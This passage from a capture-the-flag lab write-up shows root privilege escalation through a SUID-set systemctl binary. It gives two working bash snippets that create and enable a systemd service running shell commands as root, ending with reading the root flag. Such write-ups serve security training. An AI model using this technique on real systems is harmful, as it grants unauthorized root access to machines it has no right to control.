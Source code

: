 Aere an interesting file caught my eye, `/bin/systemctl` because Systemctl is the command-line tool that manages the systemd system and service manager in Linux. It lets users control and manage system services and units with commands to start, stop, restart, and check their status.


- After doing some research, I found that If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.
```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```
This code snipped runs the shell with root previlege and stores the id to /tmp/output directory. Let's chech it on our target machine.
![privilege escalation](./vulnversity/priv_esc.png)

Here we can see that we escalated teh privilege by abusing SUID and ran `id` command.

So now our next move is to replace `id` command with `cat /root/root.txt` so that it would output the root flag in /tmp/output file. Our new modified code will be:

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```
![root flag](./vulnversity/root_flag.png)
